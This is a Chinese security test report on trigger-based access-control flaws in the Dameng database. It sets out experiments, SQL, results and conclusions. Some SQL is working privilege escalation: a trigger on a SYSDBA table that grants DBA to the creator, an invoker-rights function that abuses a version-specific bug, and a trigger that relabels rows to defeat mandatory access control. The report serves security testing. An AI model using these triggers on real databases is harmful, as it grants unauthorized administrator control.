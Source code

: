 ### 触发器目前问题总结：
#### 1 自主访问控制中问题
- 自主访问控制在安全模型中的规定如下：
  - 主体必须拥有对客体的访问权限才能访问客体
  - 权限的授予和传播情况需要记录在系统中
  - 权限的传播范围：只限于该对象本身，不会影响其他对象的访问权限
​	针对触发器进行关于自主访问控制的测试的目的是：用户在触发器的使用过程中是否会直接或间接的获取到某些信息，或者使用其他用户的权限，从而间接的获取到自己未曾拥有的权限，乃至获取到DBA权限。
##### 1.1 只使用触发器
1.1.1  测试目的：测试触发器是否能够使得调用者获取到自己没有的权限
1.1.2  测试过程：
（1）  实验一
- 前提条件：用户user1拥有创建表、触发器的权限；用户user1创建表table1，并在表上创建触发器，授予用户user2插入该表的权限
- 测试步骤：
  1. user1创建以下类型的触发器：
     ```sql
     create or replace trigger insert_table1
     after insert on table1
     for each row
     begin
     		delete from table1 where id = 1;
     end;
     grant insert on table1 to user2;
     ```
​	2. user2插入数据到table1触发触发器
- 测试结果：查看user1用户下table1表的数据，id = 1的那一行数据已经被删除。
**总结**：在这个实验中，user2用户虽然没有table1表的删除权限，但是因为在插入数据时，触发了触发器insert_table1，而触发器在执行的时候采用的是所有者的权限，也就是user1用户的权限，user2用户通过触发器间接的使用了user1用户的权限，从而能删除表table1中的数据。
（2）实验二
- 前提条件：用户user1拥有创建表、触发器的权限；用户user1创建表table1、tabel2，并在表table1上创建触发器，授予用户user2插入表table1的权限。
- 测试步骤：
  1. user1创建以下类型的触发器：
     ```sql
     create or replace trigger insert_table2
     after insert on table1
     for each row
     begin
     		insert into table2 values(new.id, new.name, new.age);
     end;
     grant insert on table1 to user2;
     ```
  2. user2插入数据(2, 'user2',12)到表table1，触发触发器insert_table2
- 测试结果：查看user1用户下table2表的数据，user2插入到table1的这行数据成功插入到table2中。
**总结**：在这个实验中，user2用户虽然没有table2表的插入权限，但是因为在插入数据时，触发了触发器insert_table2，而触发器在执行的时候采用的是所有者的权限，也就是user1用户的权限，user2用户通过触发器间接的使用了user1用户的权限，从而能插入数据到表table2中。
##### 1.2 Create any trigger权限
1.2.1 测试目的：通过给其他用户创建触发器，使得能够提权成功
1.2.2 测试过程：
- 前提条件：用户user1拥有创建表、Create any trigger权限，以及dba用户下一张表的插入权限
- 测试过程：
  1. user1用户在dba用户的表上创建触发器，并插入数据触发该触发器
     ```sql
     CREATE OR REPLACE TRIGGER GRANT_DBA
     BEFORE INSERT ON SYSDBA.T1
     FOR EACH ROW
     DECLARE PRAGMA AUTONOMOUS_TRANSACTION;
     BEGIN
     	EXECUTE IMMEDIATE 'GRANT DBA TO USER1';
     END;
     
     INSERT INTO SYSDBA.T1 VALUES (1, 'name');
     ```
- 测试结果：user1在插入数据之后，提权成为dba
**总结**：在这个实验中，user1用户通过给dba用户创建触发器，直接触发该触发器，将dba权限授予给自己，达到提取的目的。在达梦数据库中，用户给别的用户创建触发器之后，会将触发器的所有者转交给dba用户，那么上述的GRANT_DBA触发器是在SYSDBA模式下，而不是USER1模式，导致在之后的调用中都使用的SYSDBA用户的权限。
##### 1.3 触发器调用存储过程/函数
1.3.1 测试目的：触发器调用存储过程是否可以提权成功
1.3.2 测试过程：
- 前提条件：user1用户有创建触发器、存储过程的权限
- 测试步骤：
  1. user1用户创建触发器、存储过程，进行提取
     ```sql
     CREATE OR REPLACE FUNCTION GRANT_DBA_TO_USER1
     RETURN VARCHAR2
     AUTHID CURRENT_USER
     IS PRAGMA AUTONOMOUS_TRANSACTION;
     BEGIN
         EXECUTE IMMEDIATE 'GRANT DBA TO LXQ1';
         COMMIT;
         RETURN 'GRANTED';
     END;
     CREATE OR REPLACE TRIGGER GET_DBA_TRIGGER
     AFTER INSERT ON USER1.T1
     FOR EACH ROW
     DECLARE
         RESULT VARCHAR2(4000);
     BEGIN
     	CALL GRANT_DBA_TO_USER1();
     END;
     ```
  2. dba用户插入数据到user1用户的表T1中
     ```sql
     INSERT INTO USER1.T1 VALUES (1, 'dba');
     ```
- 测试结果：dba用户插入数据到user1.t1表之后，user1用户提权成为dba用户。
**总结**：在这个实验中，触发器使用的虽然是user1用户的权限，但是因为存储过程使用的是调用者的权限，即dba用户的权限，导致最后的权限提升。但其实是使用了达梦特定版本2022-09-29版本的一个漏洞，在触发器调用存储过程时，使用的是触发者的权限，而在之后的版本中已经将该问题进行修复，在触发器调用存储过程时，使用的仍然是触发器所有者的权限，所以在之后的版本中这个实验都无法成功。
#### 2 强制访问控制中的问题
数据库中，通过SYSSSO来创建策略，对用户、表施加策略，从而达到强制访问控制的目的。而在达梦中，如果SYSSSO用户仅对用户施加策略，该用户创建表之后，还是普通表，任意用户拥有该表的查询权限，就可以查看数据，若要满足强制访问控制的要求，还需要SYSSSO用户来对该用户的表施加策略。
- 强制访问控制在安全模型中的规定如下：
  - 安全管理员可以通过设置安全策略和标签策略来限制被授权者的标签，对数据库的主体和客体授予对应的标签。
  - 用户安全性标签的安全分级 >= 数据库数据表的行、列和属性值安全性标签的安全分级，才可以读数据
  - 用户安全性标签的安全分级 <= 数据库数据表的行、列和属性值安全性标签的安全分级，才可以写数据
针对触发器进行关于强制访问控制的测试的目的是：低等级用户在触发器的使用过程中是否会获取到高等级的数据，影响数据库中的数据流向。
##### 2.1 只使用触发器
2.1.1  测试目的：测试触发器中是否能够使得低等级的用户读取到高等级的数据
2.1.2  测试过程：
（1）  实验一
- 前提条件：用户user1是高等级，user2是低等级，user1用户具有创建表、触发器的权限，user1用户创建表tab1、tab2，user2用户拥有user1.tab1表的插入权限，拥有tab2的查询权限
- 测试步骤：
  1. user1用户创建触发器
     ```sql
     --创建触发器
     CREATE OR REPLACE TRIGGER TRG_INSERT
     BEFORE INSERT ON TAB1
     FOR EACH ROW
     BEGIN
     		INSERT INTO TAB2(ID, NAME) VALUES(1,1);
     END;
     
     --分别授权插入、查询
     GRANT INSERT ON TAB1 TO U_POL2;
     GRANT SELECT ON TAB2 TO U_POL2;
     ```
  2. user2用户插入数据触发触发器
     ```sql
     --插入数据，以触发触发器
     INSERT INTO U_POL1.TAB1(ID, NAME) VALUES(1,'USER2');
     
     --查询结果
     SELECT * FROM U_POL1.TAB2;
     ```
- 测试结果：user2用户查询tab2表可以查看到(1,1)这行数据。
**总结**：在这个实验中，user1用户是高等级用户，通过在触发体中执行插入数据到表tab2中，但是因为触发器中并不会对标签进行处理，只会对权限进行处理，所以在插入到tab2表的时候，使用的是所有者的权限，但是在实际执行时，仍然使用的是user2用户的等级进行插入。
（2）  实验二
- 前提条件：用户user1是高等级，user2是低等级，user1用户具有创建表、触发器的权限，user1用户创建表tab1，user2用户拥有user1.tab1表的插入、查询权限
- 测试步骤：
  1. user1用户创建触发器
     ```sql
     --创建触发器
     CREATE OR REPLACE TRIGGER TRG_INSERT
     BEFORE INSERT ON TAB1
     FOR EACH ROW
     BEGIN
     		NEW.LABEL_COL = 22; --22是低等级的标签
     END;
     
     --分别授权插入、查询权限
     GRANT INSERT, SELECT ON TAB1 TO U_POL2;
     ```
  2. user1用户插入数据触发触发器
     ```sql
     --插入数据，以触发触发器
     INSERT INTO U_POL1.TAB1(ID, NAME) VALUES(1,'USER1');
     ```
  3. user2用户插入数据触发触发器
     ```sql
     --插入数据，以触发触发器
     INSERT INTO U_POL1.TAB1(ID, NAME) VALUES(2,'USER2');
     ```
- 测试结果：user2用户查询tab1表时两行数据都可以查询得到。
**总结**：在这个实验中，user1用户是高等级用户，通过在触发体中修改插入行的标签值，但是因为触发器在创建时未监测到该语句的语法语义错误，执行触发器时也直接将数据行中的label_col列的值进行修改，并未做更多的检查，所以导致在此之后，所有的数据在插入时的标签值都为22。